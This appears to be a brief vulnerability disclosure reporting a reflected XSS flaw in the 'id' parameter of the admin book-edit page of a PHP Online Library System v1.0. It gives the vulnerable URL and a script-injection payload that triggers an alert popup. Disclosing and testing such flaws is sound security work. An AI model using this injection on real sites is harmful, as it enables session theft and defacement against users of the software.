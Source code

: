 #### BUG_AUTHOR:LIU WEIYU
# Online Library System – reflected XSS on (admin/books/index.php?view=edit&id=1345673) 
## Vendor Homepage:
https://www.sourcecodester.com/php/14816/online-library-system-phpmysqli-full-source-code.html 
## Version:V1.0
## Tested on: PHP, Apache, MySQL
## Affected Page:
admin/books/index.php 
On this page,id parameter is vulnerable to reflected XSS Attack 
## Proof of vulnerability:
Visit this page after logining：
http://localhost/OLS/admin/books/index.php?view=edit&id=1345673 
<img width="1000" alt="image" src="https://github.com/thisissuperann/Vul/assets/148440408/bc27a50c-9051-4365-bde7-058983824c96">
## Payload：
？id= "> <script>alert(1)</script>
## Trigger popup：
<img width="416" alt="image" src="https://github.com/thisissuperann/Vul/assets/148440408/63f493d5-1e70-4b0d-84d8-3af39f4a96d7">
